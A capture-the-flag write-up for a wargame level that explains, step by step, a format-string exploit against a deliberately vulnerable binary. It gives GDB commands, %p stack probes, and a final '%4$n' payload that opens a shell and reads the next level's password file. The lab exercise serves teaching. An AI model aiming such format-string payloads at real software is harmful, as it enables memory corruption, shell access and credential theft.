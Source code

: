 # LEVEL 3

## 💡 Explanation

In this level we have to:
1. Having a look to the main we can see that there's a call to the function `v`. This function is pretty simple to understand: (1)it asks for input calling to `fgets`, (2) it prints what has been read using `printf`, (3) compares the variable `m` to 0x40 (64 in decimal) and (4) if the comparison evaluates to true, it printfs "Wait what?!" and opens a shell by doing a call to `system`.
2. Obviously, what we have to do is to manage set the variable `m` to 64, so the program get's in the comparison and opens a terminal. We can not exploit the `fgets` because this function is protected against buffer overflows; therefore what we are going to exploit is `printf`.
3. We first have to test that actually we can pass to printf a formatting string and that it'll process it. We can do that by trying to get direct access to the stack by using `"Hello my name is %p"`. It works!
4. Now, we have to find out where does printf starts writing. To do so we can pass a string formatted with a code that we know (for example "AAAA" == 0x41414141) followed by a lot of `"%p"`. We see that the 0x41414141 appears as the 4th element in the stack, meaning that we can use this to save the `m` variable address as the 4th element in the stack.
5. Last thing: we have to manage is how to write the value "64" on `m`... To do so we are going to use the formatter `%n` which receives as a parameter the position in the stack were it is going to read (our case is the 4th position on the stack == `$4`) and writes on it the number of characters written before reaching this formatter. We have to build an exploit like: [ADDRESS M][RANDOM CHARS][%N FORMATTER TO $4] where the first two part have to have a length of 64 bytes!

## 👾 Commands

To find the solution:
```
[GDB] disas main
[GDB] disas v
[GDB] b *0x080484df => it is right before the cmp, so we can set the eax to 0x40
[GDB] info variables => get the address of the variable m
[GDB] set ($eax) = 0x40 => step to see how we get in the if
[GDB] b *0x08048513 => right before the call to system, we'll see in the stack "/bin/bash"
[VM]  python -c 'print "Hello my name is %p"' | /home/user/level3/level3
[VM]  python -c 'print "AAAA %p %p %p %p %p %p %p"' | /home/user/level3/level3
[VM]  python -c 'print "\x8c\x98\x04\x08 %p %p %p %p"' | /home/user/level3/level3
```

To execute the solution:
- `(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat - ) | /home/user/level3/level3`
- `cd /home/user/level4`
- `cat .pass`

## 🔍 Resources

- [Chaine de format - introduction](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-introduction)
- [Chaine de format - lecture en mémoire](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-lecture-en-memoire)
- [Chaine de format - écriture en mémoire](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-ecriture-en-memoire)
- [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
- [How to Write Specific Values to Memory with Format String Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/)
- [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
